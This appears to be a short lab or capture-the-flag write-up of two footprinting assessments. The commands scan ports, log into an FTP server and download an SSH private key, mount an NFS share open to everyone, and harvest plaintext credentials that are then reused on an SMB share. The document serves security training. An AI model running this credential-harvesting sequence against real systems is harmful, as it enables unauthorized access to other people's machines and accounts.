 *Result:* Several DNS and IPs, not usefull for the task

---

*Command:* rustscan -a $TARGET-t 500 -b 1500 -- -A

*Result:*  Open $TARGET:2121

---

*Command:* ftp $TARGET -p 2121

*Result:* Access to ftp server

---

*Command:* ls -la + mget id_rsa

*Result:* Found ssh key

---

*Command:* chmod 600 id_rsa

*Result:* change mode of the file to allow ssh connection

---

*Command:* ssh -i id_rsa ceil@$TARGET

*Result:* Access to target + retrieve flag


### Assessment 2
*Command:* Port scan
- rustscan -a $TARGET -t 500 -b 1500 -- -A
  
*Result:* Found NFS

---

*Command:* Display mounts
- showmount -e $TARGET

*Result:* /TechSupport (everyone)

---

*Command:* Mount share
- mount -t nfs 10.129.202.41:/TechSupport /mnt/aufgabe2 -o nolock

*Result:* A lot of text files + found credentials alex:lol123!mD

---

*Command:* Access smbshare with credentials
- smbclient //$TARGET/devshare -U alex

*Result:* Found file with information sa:87N1ns@slls83 

---
